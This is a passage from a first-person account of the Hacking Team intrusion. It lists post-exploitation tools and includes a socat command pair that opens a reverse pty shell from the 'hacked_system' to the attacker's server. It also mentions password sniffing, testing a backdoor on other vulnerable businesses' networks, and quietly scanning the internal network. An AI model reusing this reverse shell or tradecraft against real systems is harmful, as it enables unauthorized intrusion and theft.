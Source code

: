 6) dsniff

for snooping passwords from vulnerable protocols like ftp, and for
arpspoofing. I'd rather have used ettercap, writen by Hacking
Team's own ALoR and NaGA, but it was difficult to compile for the
system.

7) socat

for a handy pty shell:

my_server: socat file: tty, raw, echo=0, tcp-listen:mi_port
hacked_system: socat exec:'bash -li',pty,stderr,setsid,sigint,\
sane tcp:my_server:my_port

And for many other things. It's a network swiss army knife. See the
examples section of its documentation.

8) screen

like socat's pty, not strictly necessary, but I wanted to feel at
home in Hacking Team's network.

9) a SOCKS proxy server

to use together with proxychains for accessing the internal network
with this or that other programme.

10) tgcd

for forwarding ports, like those of the SOCKS server, through the
firewall.

[1] https://www.busybox.net/
[2] https://nmap.org/
[3] https://github.com/SpiderLabs/Responder
[4] https://github.com/bendmorris/static-python
[5] http://www.tcpdump.org/
[6] http://www.monkey.org/~dugsong/dsniff/
[7] http://www.dest-unreach.org/socat/
[8] https://www.gnu.org/software/screen/
[9] http://average-coder.blogspot.com/2011/09/simple-socks5-server-in-c.html
[10] http://tgcd.sourceforge.net/

The worst thing that could happen would be that my backdoor or
post-exploit tools would make the system unstable, and force an
employee to investigate. So I spent a week testing my exploit,
backdoor, and post-exploit tools in the networks of other vulnerable
businesses before entering Hacking Team network.

----[ 7 - Watch and listen ]----------------------------------------

Now that I was inside the internal network, I wanted to take a look
around and think about my next step. Switching Responder.py to
analysis mode (-A, to listen without sending poisoned responses), and
performed a slow scan with nmap.

----[ 8 - NoSQL databases ]-----------------------------------------
